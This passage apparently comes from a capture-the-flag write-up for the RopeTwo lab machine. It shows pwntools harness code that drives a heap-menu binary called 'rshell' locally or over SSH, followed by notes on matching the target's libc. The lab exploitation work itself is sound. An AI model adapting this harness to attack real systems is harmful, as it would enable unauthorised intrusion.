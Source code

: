     def add(name, size, content='x'):
        p.sendline(f'add {name}')
        res = p.recvuntil(('size: ', prompt))
        if res.endswith(prompt.encode()): 
            pdb.set_trace()
            return
        p.sendline(f'{size}')
        if size > 0:
            p.recvuntil('content: ')
            p.sendline(content)
        res = p.recvuntil(prompt)
        return res 
        
    def rm(name, wait=True):
        p.sendline(f'rm {name}')
        if wait:
            p.recvuntil(prompt)

    def edit(name, size, content='x'):
        p.sendline(f'edit {name}')
        res = p.recvuntil(('size: ', prompt))
        if res == prompt: 
            pdb.set_trace()
            return
        p.sendline(f'{size}')
        if size > 0:
            p.recvuntil('content: ')
            p.send(content)
        p.recvuntil(prompt)


    rshell = ELF('./rshell')
    libc = ELF('./libc.so.6-ropetwo')

    if args.REMOTE:
        remote = ssh(host='10.10.10.196', user='chromeuser', keyfile='/root/keys/ed25519_gen')

    if args.REMOTE:
        p = remote.run('rshell')
    else:
        p = process('./rshell')
    p.recvuntil('$ ')
    x=1



#### Libc

I'll want to use the same `libc` that is being used on RopeTwo:



    chromeuser@rope2:~$ ldd /usr/bin/rshell 
            linux-vdso.so.1 (0x00007fff8515b000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc977190000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fc97738a000)
